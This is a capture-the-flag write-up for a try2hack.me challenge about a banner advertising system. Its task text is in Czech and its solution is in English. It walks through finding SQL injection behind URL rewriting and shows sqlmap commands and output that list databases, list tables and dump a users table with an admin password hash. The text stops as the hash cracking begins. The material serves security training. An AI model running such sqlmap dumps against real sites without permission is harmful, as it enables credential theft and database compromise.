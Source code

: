 ## Úkol č. 15

### Zadání:

Cílový server používá pro monetizaci obsahu vlastní reklamní systém založený na bannerové reklamě. Podaří se ti v něm odhalit chybu a získat tak tajné heslo pro splnění tohoto úkolu?

---

### Postup řešení

After (long painful manual) checking for usual stuff we noticed that the URL for banner pictures [https://try2hack.me/a/5](https://try2hack.me/a/5) acts funny (can perform mathematical expressions and stuff). The trick was SQL injection behind URL rewrite, see [https://www.cybrary.it/0p3n/test-exploit-sql-injections-url-rewrite-rules/](https://www.cybrary.it/0p3n/test-exploit-sql-injections-url-rewrite-rules/) and [https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/) for reference.

After checking for SQL injections with `sqlmap`:

```bash
sqlmap -u "https://try2hack.me/a/1*" --random-agent --level 5 --risk 3 --dbs
```

Which after while returned:

```bash
available databases [2]:
[*] information_schema
[*] production
```

Going forward with `production` DB, we list it's tables:


```bash
sqlmap -u "https://try2hack.me/a/1*" --random-agent --level 5 --risk 3 -D production --tables
```

And get:
```bash
Database: production
[2 tables]
+---------+
| adverts |
| users   |
+---------+
```

Lets dump table `users`:

```bash
sqlmap -u "https://try2hack.me/a/1*" --random-agent --level 5 --risk 3 -D production -T users --dump
```

While dumping the table SQLmap detects hash in password column for the only user `admin` and offers to run dictionary attack against it, and voila:
